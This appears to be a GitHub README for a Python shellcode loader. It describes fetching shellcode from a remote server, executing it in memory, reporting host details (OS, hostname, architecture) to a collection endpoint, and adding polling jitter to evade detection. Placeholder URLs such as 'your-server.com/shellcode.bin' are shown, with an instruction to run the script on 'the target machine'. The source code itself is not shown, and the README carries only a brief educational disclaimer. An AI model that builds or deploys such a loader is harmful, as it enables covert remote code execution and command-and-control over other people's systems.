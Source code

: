 # Shellcode loader
Shellcode loader written in Python.

Overview

This project provides a basic shellcode loader written in Python. The loader:

Fetches shellcode from a specified URL.
Executes the shellcode directly in memory.
Collects basic metadata about the host machine.
Sends the metadata back to a specified server.
Polls the server at random intervals to disguise traffic patterns (jitter).

Note: This tool is intended for educational purposes or controlled environments. Executing shellcode can be dangerous and should be done responsibly and legally.
Features

Dynamic Shellcode Loading: The loader does not have the shellcode embedded in it but fetches it from a server.
Metadata Reporting: Sends basic system information (e.g., OS, hostname, architecture) to a server.
Jitter Implementation: Polls the server at random intervals to reduce detection.

Requirements

Python 3.x
Internet connection for fetching shellcode and sending metadata

Setup

Prepare the Server:
Host your shellcode binary (e.g., shellcode.bin) on a web server.
Create an endpoint to receive metadata (e.g., metadata endpoint).

Modify the Script:
Update the URLs in the script with your server's URLs:

python

shellcode_url = "http://your-server.com/shellcode.bin"
metadata_url = "http://your-server.com/metadata"

Run the Script:

Execute the Python script on the target machine:

```python shellcode_loader.py```
